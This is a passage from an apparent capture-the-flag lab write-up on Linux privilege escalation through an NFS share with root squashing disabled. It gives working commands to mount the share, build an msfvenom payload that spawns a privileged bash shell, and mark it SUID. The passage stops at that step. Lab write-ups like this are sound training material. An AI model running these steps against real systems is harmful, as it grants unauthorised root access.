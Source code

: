 ![NFS Configuration](../../assets/images/thm/linuxprivesc/68-nfs.png)

Note that in our case, the `/tmp` share has root squashing disabled. On our machine, we can now switch to the root user, create a mount point, and mound the `/tmp` share as indicated below.

```console
mkdir /tmp/nfs
mount -o rw, vers=3 10.10.114.180:/tmp /tmp/nfs
```
![NFS Mount](../../assets/images/thm/linuxprivesc/69-nfs_mount.png)

We can now use *msfvenom* to create a payload which executes `/bin/bash` with the `-p` option to retain permissions.

```console
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```
Mark the payload as executable and set SUID permissions.

```console
chmod +xs /tmp/nfs/shell.elf
```
![NFS Shell](../../assets/images/thm/linuxprivesc/70-nfs_shell.png)
